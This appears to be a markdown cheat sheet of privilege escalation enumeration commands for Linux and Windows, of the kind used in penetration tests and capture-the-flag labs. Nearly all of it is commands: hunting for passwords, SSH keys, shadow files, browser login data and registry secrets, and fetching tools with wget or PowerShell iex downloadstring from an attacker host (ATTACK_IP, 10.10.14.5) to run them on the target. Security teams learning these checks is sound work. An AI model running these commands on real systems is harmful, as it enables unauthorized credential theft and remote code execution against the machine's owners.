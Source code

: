# Local Privilege Escalation LPE Enumeration Methodology

### 1) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

        cat /home/user/.bash_history

11) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

12) Chech the current user's PATH variable contents

        echo $PATH

13) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

14) Search for passwords within a linux system

Common password files

        find / -type f \( -iname "*passwd*" -o -iname "*shadow*" -o -iname "*secret*" \) 2>/dev/null

Password in config files

       grep -r --color=auto -i "password" /etc 2>/dev/null

Sensitive keywords on files

       grep -r --color=auto -iE "(password|pass|secret|key|token)" /home /var /etc 2>/dev/null

SSH Keys

       find / -type f -name "id_rsa" -o -name "id_dsa" 2>/dev/null

Bash History

       cat ~/.bash_history | grep -iE "password|pass|secret|key|token"

Hardcoded credentials in code

       grep -r --color=auto -iE "(password|key|secret|credential)" /var/www /home

Database files

       find / -type f -iname "*.sql" -o -iname "*.db" -o -iname "*.sqlite" 2>/dev/null

Environment Variables

       find / -type f -iname ".env" 2>/dev/null
       grep -i "password" $(find / -type f -iname ".env" 2>/dev/null)

### 2) Windows Local Privilege Escalation LPE Enumeration

On Windows machines, we can conduct some checks to find interesting info for LPE

1) Windows Privileges

Check our current user what privileges does he have

       whoami /priv

More details about the user

       whoami /all

2) Open ports/services that we can use

       netstat -ano

3) Search for passwords within a Windows system

Search for passwords in files

       Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" -SimpleMatch

Sensitive Keywords in documents

       Get-ChildItem -Path C:\ -Include *.txt,*.doc,*.docx,*.xls,*.xlsx -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|secret|key|token"
       findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml	

Config files containing credentials

       Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" -Include *.config,*.xml

Browser Password Files

       Get-ChildItem -Path "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -ErrorAction SilentlyContinue

Windows Registry

       reg query HKCU /f "password" /t REG_SZ /s
       reg query HKLM /f "password" /t REG_SZ /s

User Profiles

       Get-ChildItem -Path C:\Users\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|pass|key|secret"

Encrypted Vaults

       Get-ChildItem -Path C:\ -Include *.pfx,*.key,*.crt,*.pem -Recurse -ErrorAction SilentlyContinue

System Logs

       Get-Content C:\Windows\System32\LogFiles -ErrorAction SilentlyContinue | Select-String -Pattern "password|key|secret"

3) Automation

Tools: PowerSharpPack, WinPEAS, Invoke-winPEAS

       iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

       PowerSharpPack -winPEAS

OR 

       iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-winPEAS.ps1')

       Invoke-winPEAS >> .out

4) Unquoted Services Paths

       cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\" | findstr /i /v """

5) AlwaysInstallElevated registry key

       reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
       reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

6) Scheduled Tasks

       schtasks /query /fo LIST /v
       Get-ScheduledTask | select TaskName,State

7) User Enumeration

       net users
       Get-LocalUser

8) Windows version

       systeminfo

9) Powershell History

Confirm powershell history save path

       (Get-PSReadLineOption).HistorySavePath	

Read powershell history file

       gc (Get-PSReadLineOption).HistorySavePath	

Tools: SessionGopher, LaZagne https://github.com/Arvanaghi/SessionGopher

SessionGopher run locally

       . .\SessionGopher.ps1
       Invoke-SessionGopher -Thorough

SessionGopher remotely

       Import-Module path\to\SessionGopher.ps1;
       Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss

or

       Import-Module path\to\SessionGopher.ps1;
       Invoke-SessionGopher -Target brandonArvanaghi_win7 -Thorough


       
